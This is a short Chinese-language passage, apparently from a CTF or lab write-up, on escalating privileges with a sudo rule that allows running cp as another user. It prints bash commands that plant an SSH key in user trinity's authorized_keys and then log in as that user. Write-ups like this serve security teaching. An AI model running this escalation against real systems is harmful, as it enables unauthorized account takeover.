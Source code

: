 如何用 `cp` 命令完成提权? 

> 必须提到 `cp` 指令的特性: 在不使用特定参数的情况下, `cp` 指令仅复制文件内容, 而不保留文件所有情况', '

最容易想到的办法是生成 ssh 秘钥文件, 然后用 (trinity 身份) 的 `cp` 来将用新的秘钥文件覆盖旧的:

```bash
# 先生成并赋权
cd ~
ssh-keygen
cd .ssh
chmod 777 id_rsa.pub

# 接下来拷贝
cp id_rsa.pub /home/guest
cd ../
sudo -u trinity /bin/cp ./id_rsa.pub /home/trinity/.ssh/authorized_keys
ssh -p 6464 trinity@127.0.0.1 -i /.ssh/id_rsa 
```

![4-5.png](4-5.png)

![4-6.png](4-6.png)

